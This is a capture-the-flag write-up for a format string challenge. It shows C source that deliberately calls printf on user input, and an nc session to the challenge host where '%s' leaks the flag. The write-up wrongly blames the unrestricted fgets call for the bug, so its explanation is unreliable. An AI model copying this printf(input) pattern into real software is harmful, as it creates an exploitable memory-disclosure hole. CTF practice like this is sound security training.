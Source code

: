 # RTFB [1/2]

This pwn chall is based on format string. Here's the source code : 

```c
#include <stdio.h>

void menu(void) {
    puts("/\\");
    puts("/ \\");
    puts(".∧＿∧");
    puts("( ･ω･｡)つ━☆・*。");
    puts("⊂　 ノ 　　　・゜+.");
    puts("しーＪ　　　°。+ *´¨)");
    puts("　　　　　　　　　.· ´¸.·*´¨) ¸.·*¨)");
    puts("　　　　　　　　　　(¸.·´ (¸.·’* ☆ \")");
    puts("               Bienvenue dans l'antre de la format string!");
    puts("Les format specifiers sur la voie te guideront, vers le flag ils t'emporteront.");
    puts("");
}

int main(void) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    menu();
    printf(">> ");
    char input[20];
    fgets(input, sizeof(input), stdin);

    char buffer[32];
    FILE* f = fopen("flag.txt", "rt");
    fgets(buffer, sizeof(buffer), f);

    printf(input);

    return 0;
}
```

The `fgets` statement is not restricted that means we can enter something like :  `%s` and then the character will leak a park of the stack into when printed.  

```
nc challenges.hackademint.org 32448
/\
/ \
.∧＿∧
( ･ω･｡)つ━☆・*。
⊂　 ノ 　　　・゜+.
しーＪ　　　°。+ *´¨)
　　　　　　　　　.· ´¸.·*´¨) ¸.·*¨)
　　　　　　　　　　(¸.·´ (¸.·’* ☆ ")
               Bienvenue dans l'antre de la format string!
Les format specifiers sur la voie te guideront, vers le flag ils t'emporteront.

>> %s
Star{fmt}
```

Flag : `Star{fmt}`
